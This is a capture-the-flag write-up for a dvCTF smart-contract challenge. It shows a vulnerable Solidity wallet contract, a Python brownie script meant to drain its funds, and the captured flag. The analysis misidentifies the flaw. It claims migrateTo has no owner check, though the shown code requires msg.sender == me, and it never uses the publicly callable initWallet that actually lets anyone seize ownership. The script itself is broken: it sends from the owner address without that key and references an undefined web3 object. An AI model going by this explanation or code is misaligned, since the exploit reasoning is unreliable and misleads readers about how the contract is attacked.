

# Owner Pwned
> "No one can own my wallet !!!!" He said. Or can someone ? Try to steal his money.

> Connection info: http://web3.dvc.tf:5000/challenge1

## About the Challenge
We need to steal the money by exploiting the weakness in the smart contract. Here is the content of the smart contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
 
 

contract Challenge1 {

    address public me;
    mapping(address => uint256) balances;

//constructor
    function initWallet() public {
        me = msg.sender;
    }

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(uint256 amount) public {
        require(amount <= balances[msg.sender]);
        payable(msg.sender).transfer(amount);
        balances[msg.sender] -= amount;
    }
//If there is an emergency, i'm protected \o/
    function migrateTo(address to) public {
        require(msg.sender == me, "Only me can withdraw all the funds");
        payable(to).transfer(address(this).balance);
    }
//getBalance returns the balance of the contract, it is always nice to check my fortune 
    function getBalance() public view returns (uint) 
    {
        return (address(this).balance / 1 ether);
    }

}
```

## How to Solve?
As you can see in the smart contract code above, there is a vulnerability on `migrateTo` function. The `migrateTo` function allows the owner of the contract to withdraw the funds to an address. This function does not have any checks to ensure that the destination address is valid or that the contract owner is authorized to withdraw the funds. So we need to call `migrateTo` function. First, you need to deploy the smart contract first



I created a python script using `brownie` package to solve this chall

```python
from brownie import Challenge1
from web3 import Web3

contract = Challenge1.at('0x14DfF8A248E1987E352104CE9e93E84DdC93f566')
balance = contract.getBalance()
print(balance)

private_key = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
account = web3.eth.account.privateKeyToAccount(private_key)
tx = contract.migrateTo(account.address, {'from': contract.me(), 'nonce': 422, 'gasPrice': web3.eth.gas_price, 'gas': 200000, 'allow_revert': True})
```

First the code will import the `Challenge1` smart contract and I tried to print the balance first. And then I setup a private key and account for a user who wants to call the `migrateTo` function of the contract to withdraw all the funds. The private key is used to sign the transaction and the account is used to specify the destination address where the funds should be transferred. And I called the `migrateTo` function and verify it on the challenge page to get the flag

```
dvCTF{Wh3r3D1DMyMon3YW3nt}
```